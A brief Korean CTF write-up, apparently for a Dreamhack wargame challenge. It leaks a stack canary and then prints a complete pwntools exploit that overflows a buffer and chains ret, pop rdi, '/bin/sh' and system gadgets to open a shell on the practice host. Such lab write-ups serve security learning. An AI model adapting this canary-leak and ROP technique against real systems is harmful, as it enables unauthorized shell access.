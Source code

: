 <img width="1170" height="800" alt="image" src="https://github.com/user-attachments/assets/be70ef6a-1c83-4a74-9fb7-40d6e6e95f55" />

 <img width="942" height="564" alt="image" src="https://github.com/user-attachments/assets/80edc774-3ff1-4838-abc3-ecbc284263ab" />

다음과 같은 간단한 코드를 통해, 카나리 값을 추출해보았다. 

<br>

</br> 

<img width="940" height="300" alt="image" src="https://github.com/user-attachments/assets/87803bc1-9dcc-41f7-9b77-fc6bc42cbb07" />

그 후, pop rdi 가젯을 넣기 전에 스택을 정렬해야 되기 떄문에 ret 가젯을 알아보았다.

ret 가젯 주소는 0x400596인 것을 알 수 있다. 

<br>

</br> 

```
from pwn import *
context.log_level = 'debug'
context(arch='amd64', os='linux')

p = remote('host8.dreamhack.games', 11629)

p.recvline('Buf: ')
dummy = b'A' * 0x39
print(dummy)
p.send(dummy)
p.recvuntil(dummy)
canary_leak = b'\x00' + p.recvn(7)

canary = u64(canary_leak)
print('canray : {}'.format(hex(canary)))

ret = 0x400596
pop_rdi = 0x400853
binsh = 0x400874
system = 0x4005d0

payload = b'A' * 0x38
payload += p64(canary)
payload += b'A' * 0x8
payload += p64(ret)
payload += p64(pop_rdi)
payload += p64(binsh)
payload += p64(system)


p.recvuntil('Buf: ')
p.send(payload)

p.interactive()
```
